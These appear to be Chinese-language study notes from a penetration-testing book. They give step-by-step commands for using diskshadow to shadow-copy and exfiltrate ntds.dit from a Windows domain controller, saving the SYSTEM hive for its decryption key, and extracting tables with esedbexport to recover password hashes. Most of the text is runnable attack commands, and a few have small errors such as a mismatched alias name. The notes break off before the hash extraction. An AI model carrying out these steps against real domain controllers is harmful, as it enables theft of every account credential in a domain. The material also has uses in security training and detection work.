 ```powershell
```
### 6.1.5 使用diskshadow导出ntds.dit
> 微软签名的,windows server 2008,2012,2016默认自带(c:\windows\system32\)
> 交互式(需登录远程桌面,图形化管理界面)和非交互式两种模式
```cmd
//列出帮助信息
diskshadow.exe /?
//可以用来执行命令
//将需要执行的命令"exec c:\windows\system32\calc.exe"写入文本文件"c:\command.txt"
diskshadow /s c:\command.txt
```
+ diskshadow导出ntds.dit
> 必须将当前与控制器的执行shell的路径切换到c:\windows\system32 
1.将如下命令写入一个文本文件,command.txt
```cmd
//设置卷影拷贝
set context persistent nowriters
//添加卷
add volume c: alias someAlias
//创建快照
create
//分配虚拟磁盘盘符
expose %someSlias% K:
//将ntds.dit复制到C盘中
exec "cmd.exe" /c copy k:\windows\NTDS\ntds.dit c:\ntds.dit"
//删除所有快照
delete shadow all
//列出系统中的卷影拷贝
list shadow all
//重置
reset
//推出
exit
```
2.使用diskshadow.exe直接加载这个文本文件
```cmd
//切换当前的shell路径
cd c:\windows\system32
//执行命令
diskshadow /s c:\command.txt
```
3.导出ntds.dit后,可以将system.hive转储,因为system.hive中存放这ntds.dit的密钥,如果没有该密钥,将无法查看ntds.dit中的信息
`reg save hklm\system c:\windows\temp\system.hive`
> 可以在非特权用户的权限下使用部分的diskshadow功能
> 在使用diskshadow导出ntds.dit时,可以通过WMI对远程主机进行操作
> 在使用diskshadow导出ntds.dit时,必须在c:\windows\system32\中操作
> 脚本执行后,要检查从快照中复制出来的ntds.dit文件的大小,如果文件大小发生了改变,可以检查或修改脚本后冲行执行 
### 6.1.6 监控卷影拷贝服务的使用情况(291页)
## 6.2 导出ntds.dit中的散列值
### 6.2.1 使用esedbexport恢复mtds.dit
> kali2.0下
+ 导出ntds.dit
```shell
//下载安装esedbexport(292页,命令略)
//进入存放ntds.dit的目录
//提取表信息,本实验中只需要其中的datatable和link_table,结果在同目录新生成的文件夹下
esedbexport -m table ntds.dit
``
+ 导出散列值
​```shell
//下载.ntdsxtract
```